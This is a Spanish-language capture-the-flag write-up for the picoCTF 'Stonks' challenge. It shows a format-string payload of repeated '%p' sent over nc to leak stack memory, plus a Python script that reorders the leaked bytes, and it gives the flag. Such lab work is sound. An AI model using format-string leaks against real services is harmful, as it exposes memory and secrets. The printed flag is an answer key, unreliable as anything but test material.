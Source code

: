 # Stonks

## Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c) `nc mercury.picoctf.net 20195`

## Pistas
- Okay, maybe I'd believe you if you find my API key.

## Solución

```
eltetor14-picoctf@webshell:~$ wget https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c
--2023-05-30 01:37:31--  https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2744 (2.7K) [application/octet-stream]
Saving to: 'vuln.c'

vuln.c                                          100%[======================================================================================================>]   2.68K  --.-KB/s    in 0s      

2023-05-30 01:37:31 (215 MB/s) - 'vuln.c' saved [2744/2744]

eltetor14-picoctf@webshell:~$ nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x92783900x804b0000x80489c30xf7f86d800xffffffff0x10x92761600xf7f941100xf7f86dc7(nil)0x92771800x10x92783700x92783900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353430360x643036640xffbb007d
Portfolio as of Tue May 30 01:38:59 UTC 2023


1 shares of OX
1 shares of Z
1 shares of V
163 shares of PB
1155 shares of PP
Goodbye!

Convierte la siguiente cadena a hexadecimal:
0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353430360x643036640xffbb007d

Obtendras esta cadena:
ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿø}

Ordenala con el siguiente codigo
```

## Codigo
```
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿø}"
out = ""
temp = ""
index = 0
for char in string:
    temp += char
    index += 1
    if index%4 == 0:
        fwd = ""
        for temp_char in temp:
            fwd = temp_char + fwd
        out += fwd
        temp = ""
print(out)
```

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}

## Notas adicionales

## Referencias